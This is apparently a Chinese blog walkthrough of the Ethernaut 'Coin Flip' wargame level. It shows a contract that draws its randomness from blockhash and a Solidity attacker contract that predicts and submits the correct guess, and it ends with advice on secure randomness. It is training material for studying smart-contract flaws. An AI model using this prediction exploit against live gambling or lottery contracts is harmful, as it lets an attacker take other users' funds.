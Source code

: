 title: 3. Coin Flip
date: 2022-07-11 19:32:21
updated: 2022-07-11 19:32:21
tags:
- ethernaut
categories: Web3
---
**Difficulty**: 3/10
**Level**: https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f

先看通关要求：

> 这是一个掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。

### 分析

合约代码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

本关使用 block number 作为随机数，计算 div，然后和 _guess 进行比较。

由此可知只要保证调用方和被调用方的block number 相同就可以计算出结果。

个人钱包调用不能保证block number相同，需要单独写一个合约调用CoinFlip合约即可。

### 解题

获取关卡合约实例地址：

```jsx
instance
```

打开 [Remix IDE](https://remix.ethereum.org/)，新建文件 CoinFlip.sol：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.9;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlip {
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address levelInstance;

  constructor(address _levelInstance) {
      levelInstance = _levelInstance;
  }

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    if (side == true) {
        ICoinFlip(levelInstance).flip(true);
    } else {
        ICoinFlip(levelInstance).flip(false);
    }
  }
}
```

编译部署，在 constructor 填入关卡合约地址然后部署。

然后分别在10个区块中调用 guess 函数。

最后提交，本关完成。

### 后续

通过solidity产生随机数没有那么容易. 目前没有一个很自然的方法来做到这一点, 而且你在智能合约中做的所有事情都是公开可见的, 包括本地变量和被标记为私有的状态变量. 矿工可以控制 blockhashes, 时间戳, 或是是否包括某个交易, 这可以让他们根据他们目的来左右这些事情.

想要获得密码学上的随机数,你可以使用 [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), 它使用预言机, LINK token, 和一个链上合约来检验这是不是真的是一个随机数.

一些其它的选项包括使用比特币block headers (通过验证 [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), 或是 [Oraclize](http://www.oraclize.it/)).